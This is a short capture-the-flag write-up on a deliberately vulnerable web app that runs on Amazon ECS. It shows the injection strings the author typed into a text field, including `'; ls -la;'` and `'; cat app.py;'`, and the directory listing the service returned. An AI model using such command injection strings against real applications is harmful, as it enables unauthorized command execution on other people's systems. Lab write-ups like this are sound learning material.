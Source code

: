 # Source Code

## Description
This vulnerable web application is packaged as a docker image and executed as an Amazon ECS Task. The web app attempts to provide an 'encoded' value for text entered in a text entry field on the page.

## Solution
The challenge is to identify the command injection vulnerability in the application logic and craft appropriate injection strings to identify the flag in the system. Here are the steps I took to solve this challenge:

1. Entered `ls -la'`  
Service Returned: "Internal Server Error"
2. Entered `'; ls -la;'`  
Service Returned:  
 ```ls -la
total 24
drwxr-xr-x 1 root root 4096 Oct 27 02:34 .
drwxr-xr-x 1 root root 4096 Oct 14 03:58 ..
-rw-r--r-- 1 root root  437 Oct 14 03:21 Dockerfile
-rwxr-xr-x 1 root root  643 Oct 14 03:24 app.py
-rw-r--r-- 1 root root 1105 Oct 14 03:58 app.pyc
drwxr-xr-x 2 root root 4096 Oct 13 21:12 templates
```


3. Entered `'; cat app.py;'`  
Service Returned: App source code with clear indications on how to obtain a flag. :)
